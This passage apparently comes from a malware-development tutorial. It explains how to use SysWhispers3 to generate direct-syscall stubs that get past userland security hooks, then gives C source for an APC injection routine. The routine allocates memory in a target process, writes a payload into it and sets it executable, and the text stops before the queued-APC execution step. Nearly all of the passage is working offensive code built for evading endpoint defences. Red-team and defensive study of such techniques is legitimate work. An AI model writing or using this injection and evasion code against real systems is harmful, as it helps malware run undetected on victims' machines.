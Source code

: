 ### Implementation Using SysWhispers

The implementation here uses SysWhispers3 to bypass userland hooks via direct syscalls. The following command is used to generate the required files for this implementation.

```c
python syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtAllocateVirtualMemory,NtProtectVirtualMemory,NtWriteVirtualMemory,NtQueueApcThread -o SysWhispers -v
```

Three files are generated: `SysWhispers.h`, `SysWhispers.c` and `SysWhispers-asm.x64.asm`. The next step is to import these files into Visual Studio as demonstrated previously. `ApcInjectionViaSyscalls` is shown below.

```c
BOOL ApcInjectionViaSyscalls(IN HANDLE hProcess, IN HANDLE hThread, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	Syscall     St                      = { 0 };
	NTSTATUS    STATUS                  = NULL;
	PVOID       pAddress                = NULL;
	ULONG       uOldProtection          = NULL;
	SIZE_T      sSize                   = sPayloadSize,
	            sNumberOfBytesWritten   = NULL;

	// Allocating memory 
	if ((STATUS = NtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
		printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);

//--------------------------------------------------------------------------
	
	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
	if ((STATUS = NtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
		printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}
	printf("[+] DONE \n");


//--------------------------------------------------------------------------

	// Changing the memory's permissions to RWX
	if ((STATUS = NtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
		printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

//--------------------------------------------------------------------------

	// Executing the payload via NtQueueApcThread

	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Payload At 0x%p Using Thread Of Id : %d ... ", pAddress, GetThreadId(hThread));
```